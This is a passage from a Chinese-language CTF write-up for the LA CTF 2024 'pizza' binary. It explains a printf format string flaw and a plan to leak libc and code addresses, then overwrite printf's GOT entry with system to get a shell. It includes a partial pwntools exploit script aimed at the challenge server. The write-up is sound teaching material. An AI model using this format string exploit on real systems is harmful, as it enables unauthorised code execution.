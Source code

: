 ```clike
    printf("Your pizza will be ready soon.\n");
    printf("Order another pizza? (y/n): ");
    char c;
    scanf(" %c", &c);
    if (c != 'y') {
      break;
    }
  }
}
```

```
[*] '/home/ywc/myworkspace/lactf2024/pizza/pizza'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

沒開 canary 但有 PIE

這題的漏洞如下，我們可以透過自訂選料控制 toppings，而也就可以在這邊控 printf 的第一個參數，也就是 fmt attack，可以做 oob read/write

```clike
printf(toppings[i]);
printf("\n");
```

我們可以先 leak 出 libc 及 code base，得出 system 以及 printf 的 got 位置，我們就能夠修改 printf 的 got 成 system，即可在呼叫 printf 時變成呼叫 system，再帶入 `/bin/sh` 字串即可開 shell

`solve.py`
```python
from pwn import *
binary = "./pizza"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.lac.tf", 31134)
# conn = process(binary)
# conn = gdb.debug(binary)

# 4010A0 deregister_tm_clones
# .text:000000000040117C                 mov     rdi, rax        ; s
# .text:000000000040117F                 call    _puts
# 0x0000000000401016 : ret

conn.sendlineafter(b"> ", b"12")
conn.sendlineafter(b"topping: ", b"%47$p|%49$p|")
conn.sendlineafter(b"> ", b"1")
conn.sendlineafter(b"> ", b"1")
conn.recvuntil(b"chose:\n0x")
libc_leak = int(conn.recvuntil(b"|", drop=True), 16)
code_leak = int(conn.recvuntil(b"|", drop=True), 16)
libcbase = libc_leak - 0x2718a - 0xc0
codebase = code_leak - 0x1189
print(f"libcbase: {hex(libcbase)}")
print(f"codebase: {hex(codebase)}")

conn.sendlineafter(b"n): ", b"y")

#  000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
# 0x104020 printf.got
system = libcbase + 0x4c490
```